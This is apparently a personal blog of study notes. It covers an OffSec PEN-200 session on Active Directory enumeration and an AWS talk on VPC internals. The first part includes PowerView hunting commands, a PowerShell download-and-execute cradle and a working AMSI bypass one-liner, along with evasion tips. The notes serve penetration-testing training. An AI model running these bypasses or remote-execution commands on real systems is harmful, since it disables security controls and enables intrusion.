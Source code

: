 # OffSec Live: PEN-200 & AWS Deep Dive

author:: Nathan Acks  
date:: 2022-08-24

Notes from OffSec Live in the morning (as usual), and then a few more YouTube videos about AWS this evening.

## OffSec Live: PEN-200 - Active Directory Enumeration & Exploitation, Part 1

* The Windows `whoami` supports a lot of flags. For example, `whoami /privs` returns privilege information, while `whoami /all` returns *tons* of information about the current user.
* The Windows host name will be returned by the `hostname` command.
* The Windows `systeminfo` command returns *a lot* of information about the current computer, including the associated domain controller if it's domain-joined.
* Use `net users` to enumerate all local users on Windows.
* Use `net users /domain` to enumerate domain users. `Administrator`, `Guest`, and `krbtgt` are all standard Windows domain users.
* Windows allows for duplicate domain and local users; this is why users get prefixed by the domain or local machine name (and comparing the output of `whoami` and `hostname` will reveal if you're logged in with a local or domain account).
* When viewing information about a Windows user, `net user $USERNAME` will return *local* user information, while `net user $USERNAME /domain` *domain* user information.
* Local and domain groups can be enumerated in Windows using `net localgroup` and `net group /domain`.
* See all Windows administrators for the local system: `net localgroup administrators`
* By default, all members of the `Domain Admins` domain group are admins of both the *domain* and *all* machines in that domain.
* One way to show domain group membership is to use `net group $GROUP /domain`. However, this *doesn't* show domain groups that are members of that group; for this you need to use PowerShell.
* A good enumeration tool is `PowerView.ps1`. 
* One tool supplied by `PowerView.ps1` is the `Get-DomainUsers | select name, memberof` command, which gets domain users and associated groups.
* The `Get-DomainGroupMember -Identity $GROUP_NAME` command for `PowerView.ps1` will get all domain group members, *including* nested domain groups.
* Another `PowerView.ps1` command is `Get-NetLoggedon | select UserName`, will show all users that previously logged on to the current machine. It requires administrative privileges to be run against remote machines.
* The `Get-NetSession` command for `PowerView.ps1` shows all users who are logged in to the current machine *right now*. It can be called *without* admin privileges from Windows Server systems.
* Finally, the `Invoke-UserHunter` command for `PowerView.ps1` bundles up `Get-NetLoggedon` and `Get-NetSession` to hunt for currently logged in domain admins.
* You can download a remote script into memory and execute it using PowerShell using `IEX (New-Object System.Net.Webclient).DownloadString("$SCRIPT_URL")`. You can also load scripts into variables this way (just replace `IEX` with a variable assignment).
* Windows Defender uses a process called AMSI that triggers when a script is run in PowerShell (this includes invocations of `IEX` for in-memory scripts). However, there's a lot of bypasses for this - for example, you can cause the AMSI init function to error out using `[REF].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`.
* AMSI traps all PowerShell commands that contain all AMSI-function related strings, however. The search uses regular expressions, and can be bypassed by putting portions of the script you're trying to call in variables, and then calling these instead. If you really need a one-liner, you can also do some fancy hex code conversion (see the "Bypass AMSI by manual modification" link).
* Be aware that AMSI bypasses are *per session*, not global!

### References

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
* [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)

## Another Day, Another Billion Packets

* VPC was originally created to help *Amazon* migrate their data centers to AWS.
* EC2 originally just assigned new instances random IP addresses in the 10.44.x.x range. Every new instance got its own IP address, and there was no concept of unified subnets.
* VPCs solve this! Every VPC gets a non-routable network that you choose. VPC subnets can be anything, so long as they (1) don't overlap and (2) are entirely contained within the VPC network.
* VPCs are *not* VLAN based - there are at most 4096 separate VLAN tags.
* VPCs are identified internally with a 128 bit number (8 hex digits).
* The VPC mapping service is basically an ARP cache on steroids that understands what EC2 instances and VPCs *are* and on which physical servers the instances are located. But the mapping service doesn't *just* provide L2 information - servers receiving packets also verify that those packets are authentic (that the packet's server/instance/VPC tuple matches an existing system).
* The mapping service also functions as a "virtual gateway", providing routing information *between* subnets. One interesting consequence of this is that, while in a traditional network inter- and intra-network routing looks slightly different, in AWS this routing is *exactly* the same once packets leave a physical server. L2 and L3 routing are essentially unified within AWS.
* In practice, the every server contains a dedicated system that caches from the mapping service. In fact, these devices *pro-actively* cache from the mapping service as instances are spun up within a VPN. *All queries are handled by these caches.*
* There are two types of caches - caches to individual hosts (EC2) instances, and caches to "edges", which map to other networks. Direct Connect, VPNs, and internet gateways are implemented at edges.
* Edges also function as a 1-to-1 NAT in their role as internet gateways.
* Edge devices are called "Blackfoot", after the South African Blackfoot Penguin.
* The last non-AWS Amazon web server was deactivated on November 10, 2010. Since then, Amazon has run 100% on AWS. And Amazon uses the same EC2 instances as everyone else.
* Edges can also now route to S3, enabling S3 buckets to be exposed *privately* within a VPC. Packets routed to S2 buckets configured in this fashion *never* traverse the public internet - they go out to an edge device and then are routed from there to S3.
* S3 buckets can be restricted to particular VPCs, and EC2 instances can be restricted to accessing particular EC2 buckets. All of this is done with the standard Amazon ("Aspen") policy document structure.
* 

### References

* [AWS re:Invent 2015: Another Day, Another Billion Packets (YouTube)](https://youtu.be/R-n4dDGfQd4)
